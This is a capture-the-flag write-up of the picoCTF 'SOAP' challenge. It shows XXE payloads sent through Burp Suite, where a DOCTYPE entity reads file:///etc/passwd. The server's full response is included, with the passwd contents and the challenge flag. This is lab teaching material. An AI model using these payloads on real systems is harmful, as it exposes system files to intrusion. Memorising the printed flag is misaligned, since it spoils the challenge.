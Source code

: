 # SOAP

Author: Geoffrey Njogu
Location: https://play.picoctf.org/events/72/challenges/challenge/376
Tags: Web Exploitation, XXE

## Problem

> The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Additional details will be available after launching your challenge instance.

The challenge came with a hint that reads "XML external entity Injection."

## Solution

I started by launching the instance associated with this challenge (Figure 1) and got the following website launched: ``http://saturn.picoctf.net:50223/`` (Figure 2). There are different education programmes listed (Figure 2) and there are three buttons that give different information about each of the programmes (Figure 3, 4) when clicked. 

After clicking on a couple of them, I went back to Burp Suite Pro and noticed that a couple of POST requests were made to the ``/data`` subdirectory. Based on the given hint and tags, I easily worked out that this required an XXE injection attack. I brushed up on this attack by looking it up and found some articles discussing it [1][2]. 

I assumed an XXE injection vulnerability vector and attempted to exploit it. I sent one of the POST requests to Burp's repeater so that I can modify its requests (Figure 6, 7). I added the following to the request to see if I can get ``/etc/passwd``:

```xml
<?xml version="1.0" encoding="UTF-8"?><data><ID>
<!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
</ID></data>
```

I sent the request and it seemed to fail:

```xml
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
```

I tried another payload:

```
<?xml version="1.0" encoding="UTF-8"?><data><ID>2
[<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
</ID></data>
```

Another response with nothing in it was returned. After a while with experimenting with different request payloads, I finally succeeded! I used the payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

And got:

```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: [redacted]
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```

The flag is: ``picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}``. 

## References

1. https://portswigger.net/web-security/xxe
2. https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
